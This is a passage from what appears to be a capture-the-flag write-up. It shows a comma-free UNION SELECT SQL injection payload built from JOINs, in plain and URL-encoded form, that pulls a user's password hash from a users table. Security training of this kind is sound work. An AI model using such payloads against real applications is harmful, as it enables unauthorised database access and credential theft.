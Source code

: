 NOW WE'RE COOKING WITH GAS!


So with a little magic...

I can turn this:
`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT name from users where id = 1)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT password from users where id = 1)e JOIN (SELECT 6)f JOIN (SELECT 7)g`

Into this...
`UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%20name%20from%20users%20where%20id%20=%201)b%20JOIN%20(SELECT%203)c%20JOIN%20(SELECT%204)d%20JOIN%20(SELECT%20password%20from%20users%20where%20id%20=%201)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g`

And I get this:

![Another successful union](img/obj12-4/img3.png)


I got a password! I'll fast forward a bit more and state that this is a BCrypt hash that takes a long time to crack, even with my graphics card which is nothing to sneeze at, and I never managed to get anything from this. Oh well, back out of that rabbit hole.

